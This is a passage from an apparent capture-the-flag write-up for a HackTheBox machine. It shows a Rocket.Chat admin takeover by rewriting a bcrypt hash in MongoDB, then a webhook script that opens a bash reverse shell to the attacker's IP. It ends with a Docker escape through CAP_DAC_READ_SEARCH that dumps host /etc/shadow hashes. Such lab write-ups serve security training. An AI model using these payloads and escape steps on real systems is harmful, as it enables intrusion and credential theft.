rs0:PRIMARY> show dbs
admin   0.000GB
config  0.000GB
local   0.011GB
meteor  0.005GB
rs0:PRIMARY> use meteor
switched to db meteor
rs0:PRIMARY> db
meteor
```

We can view the collections in this database with `show collections`:

```
_raix_push_app_tokens
_raix_push_notifications
instances
meteor_accounts_loginServiceConfiguration
meteor_oauth_pendingCredentials
meteor_oauth_pendingRequestTokens
migrations
rocketchat__trash
rocketchat_apps
rocketchat_apps_logs
rocketchat_apps_persistence
rocketchat_avatars
rocketchat_avatars.chunks
rocketchat_avatars.files
rocketchat_credential_tokens
rocketchat_cron_history
rocketchat_custom_emoji
rocketchat_custom_sounds
rocketchat_custom_user_status
rocketchat_export_operations
rocketchat_federation_dns_cache
rocketchat_federation_keys
rocketchat_federation_room_events
rocketchat_federation_servers
rocketchat_import
rocketchat_integration_history
rocketchat_integrations
rocketchat_invites
rocketchat_livechat_agent_activity
rocketchat_livechat_custom_field
rocketchat_livechat_department
rocketchat_livechat_department_agents
rocketchat_livechat_external_message
rocketchat_livechat_inquiry
rocketchat_livechat_office_hour
rocketchat_livechat_page_visited
rocketchat_livechat_trigger
rocketchat_livechat_visitor
rocketchat_message
rocketchat_message_read_receipt
rocketchat_oauth_apps
rocketchat_oembed_cache
rocketchat_permissions
rocketchat_reports
rocketchat_roles
rocketchat_room
rocketchat_sessions
rocketchat_settings
rocketchat_smarsh_history
rocketchat_statistics
rocketchat_subscription
rocketchat_uploads
rocketchat_user_data_files
rocketchat_webdav_accounts
system.views
ufsTokens
users
usersSessions
view_livechat_queue_status
```

Looks like this is Rocket.Chat instance's database.

Let's view the `users` collection:

```json
rs0:PRIMARY> db.users.find().pretty()
{
        "_id" : "rocket.cat",
        "createdAt" : ISODate("2021-08-10T19:44:00.224Z"),
        "avatarOrigin" : "local",
        "name" : "Rocket.Cat",
        "username" : "rocket.cat",
        "status" : "online",
        "statusDefault" : "online",
        "utcOffset" : 0,
        "active" : true,
        "type" : "bot",
        "_updatedAt" : ISODate("2021-08-10T19:44:00.615Z"),
        "roles" : [
                "bot"
        ]
}
{
        "_id" : "ZLMid6a4h5YEosPQi",
        "createdAt" : ISODate("2021-08-10T19:49:48.673Z"),
        "services" : {
                "password" : {
                        "bcrypt" : "$2b$10$jzSWpBq.eJ/yn/Pdq6ilB.UO/kXHB1O2A.b2yooGebUbh69NIUu5y"
                },
                "email" : {
                        "verificationTokens" : [
                                {
                                        "token" : "dgATW2cAcF3adLfJA86ppQXrn1vt6omBarI8VrGMI6w",
                                        "address" : "saul@talkative.htb",
                                        "when" : ISODate("2021-08-10T19:49:48.738Z")
                                }
                        ]
                },
                "resume" : {
                        "loginTokens" : [ ]
                }
        },
        "emails" : [
                {
                        "address" : "saul@talkative.htb",
                        "verified" : false
                }
        ],
        "type" : "user",
        "status" : "offline",
        "active" : true,
        "_updatedAt" : ISODate("2022-07-26T20:32:56.912Z"),
        "roles" : [
                "admin"
        ],
        "name" : "Saul Goodman",
        "lastLogin" : ISODate("2022-03-15T17:06:56.543Z"),
        "statusConnection" : "offline",
        "username" : "admin",
        "utcOffset" : 0
}
```

We can change the bcrypt password hash to effectively change `saul`'s password. First, we need to learn how Rocket.Chat stores user passwords. According to [the source code](https://github.com/RocketChat/Rocket.Chat/blob/f0c37c5a8c904181577b80d239255284ac6a1280/apps/meteor/ee/server/services/account/lib/utils.ts#L25), the sha256 hash of the password is sent through bcrypt. We can use [CyberChef](https://gchq.github.io/CyberChef/#recipe=SHA2('256',64,160)&input=VHJJTU9kRUN0aUNF) to get the sha265 hash for the string `TrIMOdECtiCE`, which is `ea707b3477c09f18ec3884fc98e14f4b71ea1c74de41ce976067678b964563f8`. Then, using [this site](https://bcrypt-generator.com/), we generate the bcrypt hash for `ea707b3477c09f18ec3884fc98e14f4b71ea1c74de41ce976067678b964563f8`, which is `$2a$12$7IaJBjaGVPO30VtuB7ptx.UKlHG3ghPrpAWcd5MYcXRFefy/atsna`.

The command to update the record is `db.users.updateOne({"_id": "ZLMid6a4h5YEosPQi"}, {$set: {"services": {"password": {"bcrypt": "$2a$12$7IaJBjaGVPO30VtuB7ptx.UKlHG3ghPrpAWcd5MYcXRFefy/atsna"}}}})`.

Now, we can sign into the Rocket.Chat instance as the `admin` user. There doesn't seem to be much, but since the theme of this box seems to be getting reverse shells into services running in Docker containers (we've done it twice before), we start looking for a reverse shell oppotunity.

Searching for "rocket.chat reverse shell" finds a [writeup for a machine from HackTheBox Business CTF 2021](https://twseptian.github.io/hackthebox/hackthebox%20business%20ctf%202021/ctf/htbbiz2021-rocket/) which mentions [CVE-2021-22911](https://github.com/CsEnox/CVE-2021-22911), which is an unauthenticated exploit to change a user's password in version `3.12.1` (version `2.4.14` is on the box). The [CVE writeup on GitHub](https://github.com/CsEnox/CVE-2021-22911) mentions that "Rocket.Chat has a feature called Integrations that allows creating incoming and outgoing web hooks. These web hooks can have scripts associated with them that are executed when the web hook is triggered." The example authenticated RCE payload is as follows:

```js
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec('command here');
```

Clicking the three dots in the top left, then clicking "Administration", and finaly clicking "Integrations" brings us to this screen:



Click "New Integration" in the top right. Create an "Outgoing WebHook" with a "Event Trigger" of "Message Sent". Toggle "Enabled" to `True` and put `#general` for the channel. Next, in the URLs textbox, enter any URL like `google.com`. Then, set `Script Enabled` and paste in the below payload:

```js
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec('bash -c "bash -i >& /dev/tcp/10.10.14.98/60902 0>&1"');
```

Start a listner with `pwncat-cs -lp 60902`. Click "Save changes" in the top right. Exit back to the main chat application and send a message to spawn a reverse shell.

Sure enough, this is another docker container (there is a `.dockerenv` in `\`):

```
(remote) root@c150397ccd63:/app/bundle/programs/server# ls -la /
total 76
drwxr-xr-x   1 root       root       4096 Aug 10  2021 .
drwxr-xr-x   1 root       root       4096 Aug 10  2021 ..
-rwxr-xr-x   1 root       root          0 Aug 10  2021 .dockerenv
drwxr-xr-x   1 rocketchat rocketchat 4096 Aug  2  2021 app
drwxr-xr-x   2 root       root       4096 Jul 21  2021 bin
drwxr-xr-x   2 root       root       4096 Jun 13  2021 boot
drwxr-xr-x   5 root       root        340 Jul 26 20:22 dev
drwxr-xr-x   1 root       root       4096 Aug 10  2021 etc
drwxr-xr-x   2 root       root       4096 Jun 13  2021 home
drwxr-xr-x   1 root       root       4096 Aug  2  2021 lib
drwxr-xr-x   2 root       root       4096 Jul 21  2021 lib64
drwxr-xr-x   2 root       root       4096 Jul 21  2021 media
drwxr-xr-x   2 root       root       4096 Jul 21  2021 mnt
drwxr-xr-x   2 root       root       4096 Jul 21  2021 opt
dr-xr-xr-x 415 root       root          0 Jul 26 20:22 proc
drwx------   1 root       root       4096 Aug  2  2021 root
drwxr-xr-x   3 root       root       4096 Jul 21  2021 run
drwxr-xr-x   2 root       root       4096 Jul 21  2021 sbin
drwxr-xr-x   2 root       root       4096 Jul 21  2021 srv
dr-xr-xr-x  13 root       root          0 Jul 26 20:22 sys
drwxrwxrwt   1 root       root       4096 Jul 26 20:23 tmp
drwxr-xr-x   1 root       root       4096 Jul 21  2021 usr
drwxr-xr-x   1 root       root       4096 Jul 21  2021 var
```

Run `cd /tmp` to change to a writeable directory and then run `upload Downloads/cdk_linux_amd64` in pwncat's local shell. On the target machine, run a full scan with `./cdk_linux_amd64 eva --full`:

```
[Information Gathering - System Info]
2022/07/26 21:27:11 current dir: /tmp
2022/07/26 21:27:11 current user: root uid: 0 gid: 0 home: /root
2022/07/26 21:27:11 hostname: c150397ccd63
2022/07/26 21:27:11 debian debian 10.10 kernel: 5.4.0-81-generic

[Information Gathering - Services]
2022/07/26 21:27:11 sensitive env found:
        DEPLOY_METHOD=docker-official

[Information Gathering - Commands and Capabilities]
2022/07/26 21:27:11 available commands:
        find,node,npm,apt,dpkg,mount,fdisk,base64,perl
2022/07/26 21:27:11 Capabilities hex of Caps(CapInh|CapPrm|CapEff|CapBnd|CapAmb):
        CapInh: 0000000000000000
        CapPrm: 00000000a80425fd
        CapEff: 00000000a80425fd
        CapBnd: 00000000a80425fd
        CapAmb: 0000000000000000
        Cap decode: 0x00000000a80425fd = CAP_CHOWN,CAP_DAC_READ_SEARCH,CAP_FOWNER,CAP_FSETID,CAP_KILL,CAP_SETGID,CAP_SETUID,CAP_SETPCAP,CAP_NET_BIND_SERVICE,CAP_NET_RAW,CAP_SYS_CHROOT,CAP_MKNOD,CAP_AUDIT_WRITE,CAP_SETFCAP
        Add capability list: CAP_DAC_READ_SEARCH
[*] Maybe you can exploit the Capabilities below:
[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.

[Information Gathering - Mounts]
Device:/dev/mapper/ubuntu--vg-ubuntu--lv Path:/app/uploads Filesystem:ext4 Flags:rw,relatime

[Information Gathering - Net Namespace]
        container net namespace isolated.

[Information Gathering - Sysctl Variables]
2022/07/26 21:27:11 net.ipv4.conf.all.route_localnet = 0

[Discovery - K8s API Server]
2022/07/26 21:27:11 checking if api-server allows system:anonymous request.
err found while searching local K8s apiserver addr.:
err: cannot find kubernetes api host in ENV
        api-server forbids anonymous request.
        response:

[Discovery - K8s Service Account]
load K8s service account token error.:
open /var/run/secrets/kubernetes.io/serviceaccount/token: no such file or directory

[Discovery - Cloud Provider Metadata API]
2022/07/26 21:27:12 failed to dial Alibaba Cloud API.
2022/07/26 21:27:13 failed to dial Azure API.
2022/07/26 21:27:14 failed to dial Google Cloud API.
2022/07/26 21:27:15 failed to dial Tencent Cloud API.
2022/07/26 21:27:16 failed to dial OpenStack API.
2022/07/26 21:27:17 failed to dial Amazon Web Services (AWS) API.
2022/07/26 21:27:18 failed to dial ucloud API.

[Information Gathering - DNS-Based Service Discovery]
error when requesting coreDNS: lookup any.any.svc.cluster.local. on 1.1.1.1:53: read udp 172.17.0.3:34392->1.1.1.1:53: i/o timeout
error when requesting coreDNS: lookup any.any.any.svc.cluster.local. on 1.1.1.1:53: read udp 172.17.0.3:49417->1.1.1.1:53: i/o timeout

[Information Gathering - Sensitive Files]
        .dockerenv - /.dockerenv
        /config.json - /app/bundle/programs/server/config.json
        .token - /app/bundle/programs/server/npm/node_modules/grpc/node_modules/protobufjs/docs/ProtoBuf.DotProto.Tokenizer.html
        /config.json - /app/bundle/programs/server/npm/node_modules/url-polyfill/tests/config.json
        /.bashrc - /etc/skel/.bashrc
        /.bashrc - /root/.bashrc
        /.bash_history - /tmp/.bash_history

[Information Gathering - ASLR]
2022/07/26 21:27:42 /proc/sys/kernel/randomize_va_space file content: 2
2022/07/26 21:27:42 ASLR is enabled.

[Information Gathering - Cgroups]
2022/07/26 21:27:42 /proc/1/cgroup file content:
        12:cpuset:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        11:devices:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        10:blkio:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        9:memory:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        8:perf_event:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        7:freezer:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        6:pids:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        5:hugetlb:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        4:net_cls,net_prio:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        3:rdma:/
        2:cpu,cpuacct:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        1:name=systemd:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        0::/system.slice/containerd.service
2022/07/26 21:27:42 /proc/self/cgroup file added content (compare pid 1) :
```

Notice the line `[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.`. [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#capabilities-abuse-escape) has more information: "You should check the capabilities of the container, if it has any of the following ones, you might be able to scape from it: `CAP_SYS_ADMIN`, `CAP_SYS_PTRACE`, `CAP_SYS_MODULE`, `DAC_READ_SEARCH`, `DAC_OVERRIDE`, `CAP_SYS_RAWIO`, `CAP_SYSLOG`, `CAP_NET_RAW`, `CAP_NET_ADMIN`". [Docker breakout exploit analysis](https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3) covers the [Shocker](http://stealth.openwall.net/xSports/shocker.c) exploit (which probably can be used instead of CDK) and explains how we can read files using this capability.

We can read files from the host:

```
(remote) root@c150397ccd63:/tmp# ./cdk_linux_amd64 run cap-dac-read-search
Running with target: /etc/shadow, ref: /etc/hostname
root:$6$9GrOpvcijuCP93rg$tkcyh.ZwH5w9AHrm66awD9nLzMHv32QqZYGiIfuLow4V1PBkY0xsKoyZnM3.AI.yGWfFLOFDSKsIR9XnKLbIY1:19066:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
systemd-resolve:*:18659:0:99999:7:::
systemd-timesync:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
tss:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
tcpdump:*:18659:0:99999:7:::
landscape:*:18659:0:99999:7:::
pollinate:*:18659:0:99999:7:::
usbmux:*:18849:0:99999:7:::
sshd:*:18849:0:99999:7:::
systemd-coredump:!!:18849::::::
lxd:!:18849::::::
saul:$6$19rUyMaBLt7.CDGj$ik84VX1CUhhuiMHxq8hSMjKTDMxHt.ldQC15vFyupafquVyonyyb3/S6MO59tnJHP9vI5GMvbE9T4TFeeeKyg1:19058:0:99999:7:::
```

Let's read the `root.txt` flag `/root/root.txt`:

```
(remote) root@c150397ccd63:/tmp# ./cdk_linux_amd64 run cap-dac-read-search /root/root.txt
Running with target: /root/root.txt, ref: /etc/hostname
ae2...da0
```

We have the `root.txt` hash!

We can also view that `update_mongo.py` script we saw running before:

```
(remote) root@c150397ccd63:/tmp# ./cdk_linux_amd64 run cap-dac-read-search /root/.backup/update_mongo.py
Running with target: /root/.backup/update_mongo.py, ref: /etc/hostname
from pymongo import MongoClient
# pprint library is used to make the output look more pretty
from pprint import pprint
# connect to MongoDB, change the << MONGODB URL >> to reflect your own connection string
client = MongoClient("mongodb://172.17.0.2:27017/meteor")
db=client.admin
# Issue the serverStatus command and print the results
serverStatusResult=db.command("serverStatus")
truncate_integrations=db.rocketchat_integrations.drop({})
print(truncate_integrations)
```
